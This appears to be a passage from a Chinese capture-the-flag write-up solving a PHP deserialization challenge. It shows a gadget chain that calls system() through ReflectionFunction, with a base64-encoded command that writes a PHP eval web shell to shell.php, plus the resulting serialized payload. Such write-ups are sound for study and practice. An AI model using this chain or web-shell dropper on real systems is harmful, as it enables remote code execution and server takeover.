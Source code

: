 可以如下构造

```
<?php
.....
.....
$e=new Geek();
$e->a=new Syclover();
$e->a->Where="ReflectionFunction";
$e->a->IS="system";
$e->a->Starven="invokeArgs";
$e->a->Girlfriend=array('echo "PD9waHAgZXZhbCgkX1BPU1RbMV0pOyA/Pg==" | base64 -d >shell.php');
echo serialize($e);

//O:4:"Geek":2:{s:1:"a";O:8:"Syclover":4:{s:5:"Where";s:18:"ReflectionFunction";s:2:"IS";s:6:"system";s:7:"Starven";s:10:"invokeArgs";s:10:"Girlfriend";a:1:{i:0;s:66:"echo "PD9waHAgZXZhbCgkX1BPU1RbMV0pOyA/Pg==" | base64 -d >shell.php";}}s:1:"b";N;}
```

需要对payload进行URL编码

![](./images/image-49.png)

然后读取根目录flag，需要权限

![](./images/image-50.png)
